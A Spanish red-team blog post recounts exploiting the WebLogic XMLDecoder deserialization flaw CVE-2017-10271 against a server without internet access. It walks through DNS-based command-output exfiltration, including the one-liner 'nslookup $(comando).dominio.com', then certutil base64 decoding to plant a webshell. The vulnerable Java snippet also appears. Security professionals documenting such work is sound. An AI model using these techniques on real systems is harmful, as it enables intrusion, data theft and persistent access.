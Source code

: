 ```yaml
---
title: "Explotacion de CVE-2017-10271 en entornos bastionados"
header:
  teaser: "https://farm5.staticflickr.com/4076/4940499208_b79b77fb0a_z.jpg"
categories: 
  - ES
tags:
  - ES
  - Red Team
  - Java
  - Object Injection
  - RCE
  - Deserialize
author: Alejandro Pinna
gallery:
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
            alt: "Peticion Lineas"
            title: "Contador de caracteres por DNS"
           - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
            alt: "Respuesta Lineas"
            title: "Respuesta al XML que exfiltra dicha información"


gallery2:
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
            alt: "Peticion para exfiltrar datos"
            title: "Contador de caracteres por DNS"
           - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
            alt: "Respuesta exfiltracion de datos"
            title: "Respuesta al XML que exfiltra dicha información"

---
```



Durante uno de los test de intrusión llevados a cabo por el equipo de Red Team, en el cual se trataba de lograr acceso a la red de una organización,
haciendo uso de alguna vulnerabilididad en el perimetro, y sin ningún tipo de conocimiento previo de la misma, se tuvo que
explotar la hasta ahora poco conocidad vulnerabilidad CVE-2017-10271 en Weblogic.

## La vulnerabilidad

La vulnerabilidad se encuentra en la ruta /wls-wsat/CoordinatorPortType y se produce debido a que la clase *WorkContextXmlInputAdapter.class* utiliza
el XML que le introducimos sin ningún tipo de comprobación previa, pasandoselo a la funcion *readObject*, la cual al deserializar dicho xml provoca la
ejecución remota de código.

A continuación podremos observar un código que posee la misma vulnerabilidad que weblogic, aunque es mucho mas sencillo de comprender en el siguiente
escenario.

```java
    public static void main(String[] args) {
        java.io.File file = new java.io.File ( "C:\\Users\\Administrador\\Desktop\\poc.txt" );
        java.beans.XMLDecoder xd = null ;
        try {
            xd = new java.beans.XMLDecoder ( new BufferedInputStream ( new FileInputStream (file)));
        } catch (FileNotFoundException e) {
            e.printStackTrace ();
        }
        Object s2 = xd.readObject ();
        xd.close ();
}
```

Como podemos observar, el fichero contendrá código xml el cual será parseado por java.beans.XMLDecoder y nos devolverá un objeto, que sera
deserializado por la función java.beans.XMLDecoder.readObject, y que producirá la ejecución remota de código.

En el caso de Weblogic la vulnerabilidad es muy similar.

Para comprobar si un Weblogic es efectivamente vulnerable, hemos de buscar excepciones no controladas de Java al enviarlo XMLs con java embebido mediante una petición POST a la ruta **/wls-wsat/CoordinatorPortType** como se muestra a continuación.

![Respuesta devuelta por sistemas vulnerables]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta-sistemas-vulnerables.png)

En este blog no tenemos como objetivo cubrir los detalles sobre la vulnerabilidad dado que estos han sido cubiertos en muchos otros articulos
publicados hasta el momento, sino que pretendemos mostrar como esta vulnerabilidad podría ser explotada incluso en entornos restringidos los cuales no
poseen salida a internet, y al tratarse de una ejecución de código en la cual no es observable la salida de lo ejecutado, otros métodos han tenido que
ser desarrollados.

A continuación dejamos un articulo de referencia, donde se explican este tipo de vulnerabilidades en profundidad. 

<http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html>


## Explotación

Para llevar a cabo la explotación, el primer paso fue comprobar si los sistemas que el equipo había identificado eran efectivamente vulnerables, para
lo cual se realizó un script, que envia un XML usando java, y que posteriormente comprueba si la respuesta de la aplicación web mostraba que
efectivamente era vulnerable, o si por el contrario las aplicaciones estaban parcheadas.

Tras algunos intentos el equipo detecto un weblogic vulnerable, por lo que se procedió a explotar la vulnerabilidad.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/check.png)

En un primer intento, el equipo comprobó si la máquina tenía salida a internet, aunque se detecto que no.

Tras esto, se detecto que la máquina no tenía binarios como sleep, por lo que realizar una inyeccion de comandos basada en tiempos quedaba
completamente descartado, por lo que se buscaron otros metodos para realizar esta explotación.

Trás numerosas pruebas se detectó que la máquina tenía configurado un DNS interno, el cual al recibir peticiones hacia dominios de burpcollaborator
realizaba dichas peticiones, lo cual permitiría exfiltrar cierta información usando los subdominios para incrustar en ellos la información que ibamos
exfiltrando de la máquina.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/check.png)

A partir de este punto se comenzó a desarrollar un xml que permitiera exfiltrar la salida de los comandos ejecutados por DNS, lo cual en otros
entornos es mucho más simple, usando la técnica ** nslookup $(comando).dominio.com **, pero en este caso, tras ciertas pruebas se comprobó que dichos
comandos no funcionarían, dado que el weblogic corría sobre un servidor windows, por lo tanto este metodo fue implementado en java, usando un metodo
para ejecutar comandos, leer cada linea, y posteriormente usar dichas lineas como variables, enviandolos como subdominios en las peticiones DNS.

{% include gallery caption="This is my test" %}

Como se puede observar la explotación constaba, no solo de exfiltrar los comandos por DNS, sino que fue necesario desarrollar un metodo para contar el
número de caracteres que devolvía cada comando, dado que no se pueden incluir más de 64 caracteres en un subdominio, por lo que con esta petición se
contaban los caracteres de cada linea sobre los comandos ejecutados.
Posteriormente se realizaba la exfiltración de los caracteres en si, haciendo uso de las funciones java.lang.String.replace y java.lang.String.substr 
para reemplazar caracteres especiales, y exfiltrar tan solo el número de caracteres permitidos, como se muestra a continuación.

![Respuesta devuelta por sistemas vulnerables]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png)

Este proceso permitió ir conociendo la estructura de ficheros del servidor, el usuario que ejecutaba la aplicación, comprobar los privilegios con los
que se contaban, etc.

Poco a poco se fue desarrollando un automatismo que permitía recibir las respuestas en un servidor dns escrito en python, el cual tenía un
comportamiento cercano a una shell inversa, como se muestra a continuación.

{% include gallery id="gallery2" caption="This is a second test2" %}

Utilizando estos automatismos el equipo fue capaz de encontrar un directorio escribible en el cual se podían subir ficheros para ser posteriormente
ejecutados por la aplicación web (webshell).

En este punto el equipo tuvo que desarrollar un metodo para subir una webshell sin poder utilizar caracteres como 
` > | `

Trás investigar durante un tiempo aplicaciones instaladas en un Windows Server por defecto que permitieran encodear y decodear base64 
mediante un solo comando se utilizó la utilidad **certutil**, la cual permite decodear el contenido de un fichero, y volcarlo en un nuevo fichero.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/check.png)

Usando este metodo se consiguió obtener una webshell en dicho servidor, y por tanto un vector de acceso limpio en la organización.




